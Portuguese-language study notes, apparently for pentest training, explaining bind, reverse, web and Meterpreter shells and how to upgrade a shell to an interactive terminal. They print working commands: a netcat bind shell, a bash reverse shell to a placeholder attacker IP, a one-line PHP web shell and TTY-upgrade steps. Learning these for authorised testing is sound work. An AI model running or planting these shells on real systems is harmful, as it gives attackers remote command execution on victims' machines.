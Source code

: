 # Shells Overview 🐚

## 📌 O que são Shells?
- Shells são interfaces que permitem **interação direta com o sistema**.
- Podem ser locais (quando já temos acesso direto ao terminal) ou remotos (quando conquistamos acesso via exploração).
- No contexto de segurança ofensiva, são cruciais para **ganhar persistência e controle** após comprometer um alvo.

---

## 🛠 Tipos de Shells

### 1. **Bind Shell**
- O alvo **abre uma porta** e fica "escutando".
- O atacante conecta-se a essa porta para obter acesso.
- Características:
  - Mais simples de configurar no alvo.
  - Porém, pode ser bloqueado por firewalls.
- Exemplo:
  - No alvo: `nc -lvnp 4444 -e /bin/bash`
  - No atacante: `nc <IP_vítima> 4444`

### 2. **Reverse Shell**
- O alvo **se conecta de volta** ao atacante.
- O atacante fica "escutando" e recebe a shell.
- Mais comum em pentests, pois **contorna firewalls** que bloqueiam conexões externas.
- Exemplo:
  - No atacante: `nc -lvnp 4444`
  - No alvo: `bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`

### 3. **Web Shell**
- Script enviado para um servidor vulnerável que permite execução de comandos.
- Geralmente escrito em **PHP, ASP, JSP ou outras linguagens de servidor**.
- Exemplo (PHP simples):
  ```php
  <?php system($_GET['cmd']); ?>
- Útil em casos de upload de arquivos mal configurados.

### 4. Meterpreter Shell

Shell avançada fornecida pelo Metasploit.
Funcionalidades:
- **Execução de comandos em memória (sem escrever em disco).**
- **Captura de screenshots, keylogging, pivoting.**
- **Upload/Download de arquivos.**
- **Módulos de pós-exploração.**

### De Shells Simples para Interativas

Muitas vezes, a shell inicial obtida é não interativa (sem autocomplete, sem histórico, sem atalhos).
Para transformá-la em algo mais utilizável:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
# 2. Ajustando terminal

- No shell remoto: `export TERM=xterm`
- No atacante: `stty raw -echo; fg`

# 3. Usando rlwrap
```bash
rlwrap nc -lvnp 4444
- Permite histórico e edição de comandos.
```

📚 Resumo

- **Bind Shell**: alvo abre a porta, atacante conecta.
- **Reverse Shell**: alvo conecta de volta no atacante (mais usado).
- **Web Shell**: script enviado para execução remota.
- **Meterpreter**: shell avançada do Metasploit.
- **Upgrade de shells**: técnicas para torná-las interativas.

